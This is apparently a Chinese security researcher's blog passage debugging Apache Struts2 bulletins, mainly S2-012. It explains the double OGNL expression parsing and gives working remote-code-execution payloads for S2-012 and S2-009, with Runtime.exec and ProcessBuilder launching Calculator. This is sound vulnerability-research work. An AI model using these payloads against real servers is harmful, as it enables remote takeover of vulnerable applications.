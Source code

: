 # 前言

书接上回，本篇记录 s2-012/s2-013/S2-014/s2-015/s2-016/s2-018/s2-019/s2-020/s2-021/s2-022/s2-026/s2-032/s2-033/s2-037 的调试过程。

# S2-012

漏洞触发原理与 S2-001 类似，对 `%{}` 表达式进行了循环解析。

> 影响版本：Struts Showcase App 2.0.0 - Struts Showcase App 2.3.14.2
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-012
> 描述：当配置重定向结果从 stack 中读取并使用之前注入的代码作为重定向参数时，将导致表达式的二次解析。

在 struts.xml 中配置成如下，
```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

Struts2 使用 StrutsResultSupport 的子类 ServletRedirectResult 类处理 redirect 结果，`execute()` 方法调用 `conditionalParse()` 方法去解析 `this.location`，也就是我们配置的 `/index.jsp?name=${name}`，调用了 `TextParseUtil.translateVariables()` 方法去解析，后续的解析逻辑与 S2-001 一致，不再重复，导致了二次解析。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296644.png)


此版本中构造 payload 别忘了调用静态方法时需要将 `_memberAccess` 的 allowStaticMethodAccess 设置为 true。最终的 payload 为：
```
%{#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("open -a Calculator.app")}
```
或者：
```
%{new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a","Calculator.app"}).start()}
```

在看到第二种 payload 时，我人直接傻了，在之前的版本中为了绕过判断执行静态方法做了这么多尝试，却忘记了使用 ProcessBuilder 这种构造方法传递参数，然后调用 start 方法来执行命令。

这种情况就可以省略 `_memberAccess` 字段的修改，只需要修改 denyMethodExecution 即可，例如 S2-009 的 payload 就可以直接写为：

```
param=(#context["xwork.MethodAccessor.denyMethodExecution"]=false,new java.lang.ProcessBuilder(new java.lang.String[]{"open","-a","Calculator.app"}).start())(su18)&(param)(su19)
```

没想到啊没想到，妙啊妙啊。

# S2-013
